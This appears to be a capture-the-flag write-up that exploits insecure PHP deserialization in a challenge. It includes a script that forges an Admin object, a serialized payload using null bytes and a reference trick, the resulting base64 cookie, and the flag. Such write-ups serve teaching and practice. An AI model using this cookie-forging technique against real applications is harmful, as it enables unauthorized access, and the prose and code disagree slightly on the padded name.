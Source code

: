 # Lerdof's Records

We can see that we are dealing with a php challenge from the question.
The source code of `index.php` is leaked in `index.phps`

`index.phps` includes a file called `classes.php`, whose source code is also leaked.
Observing both these files and the cookies that are set, which is a base64 encoded serialized string, we realise that this is a `Insecure Deserialization` vulnerability.

We can assume that the cookie that is getting set is getting base_64 decoded and then deserialized later in the server.
We see that there is a `__wakeup()` magic method in `Admin` class. 
```php
function __wakeup(){
    if(strlen($this->name) == 10 &&
    strcmp($this->name, "admin") &&
    $this->secret1 === $this->secret2 &&
    md5($this->secret2->key) == 23) {
    print FLAG;
    }
}
```
When our cookie gets deserialized and it creates an `Admin` object, this `__wakeup` function will be called.

Hence, we can create an `Admin` object, with name: `aadmin\0\0\0\0\0` as `strcmp()` compares only till null byte and `strlen()` counts all the bytes, using a `Validate` class for creating `secret1` and `secret2` like 
```php
class Validate{
  public $key = 'r44TdI0STt';
}

class Admin{
  public $name;
  public $secret1;
  public $secret2;

  function __construct($name, $secret1, $secret2) {
    $this->name = $name;
    $this->secret1 = $secret1;
    $this->secret2 = $secret2;
  
  }

}

print_r(base64_encode(serialize(new Admin("admin\0\0\0\0\0", new Validate, new Validate)))); # use actual null bytes instead of \0
```
But to get past the check that checks if `secret1 === secret2`, we use `R` in the serialized string like 
>`O:5:"Admin":3:{s:4:"name";s:10:"admin\0\0\0\0\0";s:7:"secret1";O:8:"Validate":1:{s:3:"key";s:10:"r44TdI0STt";}s:7:"secret2";R:3;}` 

and then base64_encode this to get
>`Tzo1OiJBZG1pbiI6Mzp7czo0OiJuYW1lIjtzOjEwOiJhZG1pbgAAAAAAIjtzOjc6InNlY3JldDEiO086ODoiVmFsaWRhdGUiOjE6ICAge3M6Mzoia2V5IjtzOjEwOiJyNDRUZEkwU1R0Ijt9czo3OiJzZWNyZXQyIjtSOjM7fQ==`

and put it in the cookie to get the flag,

```
p_ctf{t83r35_n07hin6_l1k3_600d_p8p}
```
